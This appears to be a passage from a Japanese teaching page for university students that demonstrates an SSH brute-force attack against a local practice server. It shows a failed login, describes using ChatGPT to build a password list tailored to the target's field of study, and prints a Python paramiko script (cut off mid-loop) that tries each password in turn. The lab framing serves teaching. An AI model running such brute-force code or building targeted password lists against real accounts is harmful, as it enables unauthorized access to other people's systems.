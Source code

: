 試しにSSHしてみましょう。パスワードは今のところ分からないはずなので、適当に入力してください。
```
$ ssh chibutsu@localhost -p 22222
The authenticity of host '[localhost]:22222 ([::1]:22222)' can't be established.
ECDSA key fingerprint is SHA256:7CsZMUdMUJCx9qX89ZxRaUj2s8u8MBnuB2NUFZK+W4A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:22222' (ECDSA) to the list of known hosts.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
chibutsu@localhost: Permission denied (publickey,password).
```
当たり前ですが、パスワードが分からないのでログインできません。

---

今回はブルートフォース攻撃(総当たり攻撃)をやってみようと思います。あり得そうなパスワードのリストを片っ端から試す攻撃手法です。  

調査の結果、「chibutsu」さんは東京大学の地球惑星物理学科に所属する学生であることが分かりました。
主に固体地球・大気海洋・宇宙惑星が好きな学生が所属する機関らしいです。  
この情報を元に、ChatGPTにパスワードリストを作成してもらい、passwords.txtに保存しました。このテキストファイルを開いて、中身を見てみてください。地物っぽい単語が並んでいると思います。

!!! Note
    ChatGPTの有効な活用の仕方については、「プロンプトエンジニアリング」で検索してみてください。  
    書籍も数多く出版されていますが、ピンキリです。

それでは、このパスワードリストを用いてSSHログインを試しましょう。  
シェルスクリプトで攻撃コードを組むのは地味に大変なので、今回はPythonで組みました。  
理解できなくても良いので、bruteforce_ssh.pyを眺めてみてください。Pythonの授業が終わる頃には、何をしているかなんとなく分かるようになっているはずです。 

```
# bruteforce_ssh.py

import paramiko 
import time
import sys


passwords_path = "passwords.txt" # パスワードリストの場所

# ssh ユーザー名@localhost -p 22222
HOST = "localhost" # SSH接続先
PORT = 22222 # SSH接続のためのポート番号。今回は22222。
USER = "chibutsu" # ユーザー名

# パスワードリストからパスワードを読み込んでSSH接続を試みる。
# 接続が成功したらプログラムを終了させる。
# 失敗したら次のパスワードを試す。
with open(passwords_path, "r") as file:

    for PASSWORD in file:

        # 改行コードを取り除く
        PASSWORD = PASSWORD.replace("\n", "")

        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        try:
            ssh.connect(hostname=HOST, port=PORT, username=USER, password=PASSWORD)
            print()
            print("SUCCESS!")
            print(f"username : {USER}")
            print(f"password : {PASSWORD}")
```